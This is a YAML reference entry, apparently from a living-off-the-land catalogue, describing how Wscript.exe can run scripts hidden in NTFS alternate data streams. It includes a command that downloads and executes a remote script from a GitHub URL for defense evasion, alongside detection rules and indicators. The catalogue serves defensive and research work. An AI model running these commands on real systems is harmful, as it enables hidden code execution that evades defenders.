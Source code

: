 ```yaml
---
Name: Wscript.exe
Description: Used by Windows to execute scripts
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: wscript //e:vbscript c:\ads\file.txt:script.vbs
    Description: Execute script stored in an alternate data stream
    Usecase: Execute hidden code to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js
    Description: Download and execute script stored in an alternate data stream
    Usecase: Execute hidden code to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wscript.exe
  - Path: C:\Windows\SysWOW64\wscript.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_script_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/image_load/sysmon_susp_script_dotnet_clr_dll_load.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/command_and_control_remote_file_copy_scripts.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/a1afa0fa605639cbef7d528dec46ce7c8112194a/detections/endpoint/wscript_or_cscript_suspicious_child_process.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Wscript.exe executing code from alternate data streams
  - IOC: DotNet CLR libraries loaded into wscript.exe
  - IOC: DotNet CLR Usage Log - wscript.exe.log
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: SaiLay(valen)
    Handle: '@404death'
---
```


